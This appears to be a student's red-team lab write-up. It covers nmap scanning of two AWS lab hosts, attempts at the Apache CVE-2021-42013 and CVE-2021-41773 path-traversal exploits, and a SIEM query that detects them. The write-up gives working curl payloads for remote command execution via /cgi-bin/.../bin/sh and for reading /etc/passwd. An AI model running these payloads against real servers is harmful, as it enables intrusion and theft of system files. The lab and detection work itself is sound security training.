


  

# Red Notes:

   

# Red Team Exploitation & CVE Attack Simulation

From the Kali EC2, simulate an attacker:

- Enumerate the Ubuntu Logger and/or SIEM

- Identify exposed services

- Select real-world CVEs based on those services

- Execute or simulate exploits

- Map TTPs using the MITRE ATT&CK framework

---

1. Used ping to ensure I'm able to communicate outbound and inbound traffic to conferm the lab setup was completed correctly.

        ubuntu-logger
        172.31.24.26

        siem-server
        172.31.27.218

 

2.  Running network enumeration on bother servers, ubuntu-logger and siem-server.

        nmap -sS -sV -T4 -Pn 172.31.24.26 -oN nmap_scan_ubuntu.txt
        
        nmap -sS -sV -T4 -Pn 172.31.27.218 -oN nmap_scan_siem.txt

    

    - Analyzing the results, i'm able to confirm the ubuntu-logger has no open services and is locked down.  For the sake of the project, I artificicially installed potential targets, like Apache.  

            sudo apt update
            sudo apt install apache2 -y
            sudo systemctl enable apache2
            sudo systemctl start apache2
            curl http://localhost       # Should provide the Apache welcome output

        - Updated the AWS security group, ensuring port 80 source IP was updated to 172.31.0.0/16
            
            

    - Nmap rescan of the ubuntu-logger

        We can see the Apache server on port 80 is open

        

 

3. Analyze Nmap Results and Select CVEs

    - ubuntu-logger shows the only open port, `80/tcp   open   http    Apache httpd 2.4.58 ((Ubuntu))`

    - siem-server shows all ports closed or filtered.

    - Searching any CVEs using Exploit Db and filtered for `apache 2.4.` to find the move CVEs available

        

    - Even though there weren't any vulnerabilities directly applied to the current running Apache, it was a coin flip and choosing a verified CVE vulnerability:
    
        - Apache HTTP Server 2.4.50 - Path Traversal & Remote Code Execution (RCE)

            https://www.exploit-db.com/exploits/50406
            
                CVE-2021-42013

            

        - Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)

            https://www.exploit-db.com/exploits/50383

                CVE-2021-41773

            

 

4. Simulated Apache Attacks: 

    - CVE-2021-42013 (Apache 2.4.50)

        - In the Kali EC2 run the following to test RCE using path traversal with script execution

            curl -v --path-as-is -d 'echo Content-Type: text/plain; echo; id' http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh

        - Output:  The path traversal and remote code execution was rejected indicating to me Apache 2.4.58 patched the traversal vulnerability

            

    - CVE-2021-41773 (Apache 2.4.49)

        - Using the following command, I attempted to retrieve /etc/passwd using double-encoded traversal

                curl -v --path-as-is http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

        - Output:  There server rejected the malformed request indicating to me Apache 2.4.58 patched the traversal vulnerability

             

    - Outcomes from both simulated attacks

        Since there wasn't any verified Apache 2.4.58 vulnerable CVEs I was forced to used a prior CVEs that have been since patched as Apached updated its application.  This is why there I was unable to successfully gain access.  

 

5.  Verifying logs in the SIEM of the attacks

    - Queried for logs using `message:("/cgi-bin" OR "%2e" OR "bin/sh") AND program:("apache2" OR "apache_access")`

        - Command used:   
                curl -v --path-as-is -d 'echo Content-Type: text/plain; echo; id' http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh

            - Log identified was a post 
            
                POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh`

        - Command used:

                curl -v --path-as-is http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

        - Log identified was GET
        
                "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

    -  Some tell tale signed were identifying the HTTP codes 400 for each log.  And the attack related patterns that led me to identify the logs for the Apache hack.  

    